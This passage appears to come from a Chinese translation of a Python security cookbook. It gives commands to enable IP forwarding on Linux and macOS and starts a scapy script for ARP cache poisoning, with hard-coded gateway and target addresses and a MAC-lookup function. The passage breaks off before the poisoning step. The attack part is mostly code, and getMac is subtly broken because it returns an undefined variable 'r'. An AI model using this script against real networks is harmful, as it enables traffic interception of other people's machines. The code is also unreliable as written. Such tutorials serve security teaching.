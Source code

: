 我们可以通过检查以下文件中的内容来检查 IP 转发的状态：

```py
cat /proc/sys/net/ipv4/ip_forward  
```

如果输出是`1`，则 IP 转发已启用；如果是`0`，则 IP 转发已禁用。如果已禁用，请按以下方式启用它：

```py
echo 1 > /proc/sys/net/ipv4/ip_forward  
```

# macOS

您可以使用以下命令在 macOS 上启用 IP 转发：

```py
sudo sysctl -w net.inet.ip.forwarding=1  
```

使用以下命令禁用它：

```py
sudo sysctl -w net.inet.ip.forwarding=0  
```

# 如何做...

以下是编写脚本以中毒受害系统的 ARP 缓存的步骤：

1.  创建一个新的`arp-cache-poisoning.py`文件并在编辑器中打开。

1.  导入`scapy`模块：

```py
from scapy.all import *  
```

1.  声明变量。我们也可以从参数中获取这些，或者使用`raw_input()`：

```py
interface = "en0"
gateway_ip = "192.168.1.2"
target_ip = "192.168.1.103"
broadcastMac = "ff:ff:ff:ff:ff:ff"
packet_count = 50  
```

1.  现在定义一个从提供的 IP 获取 MAC ID 的函数：

```py
def getMac(IP):
    ans, unans = srp(Ether(dst=broadcastMac)/ARP(pdst = IP), timeout =2, iface=interface, inter=0.1)
    for send,recive in ans: 
        return r[Ether].src
    return None  
```
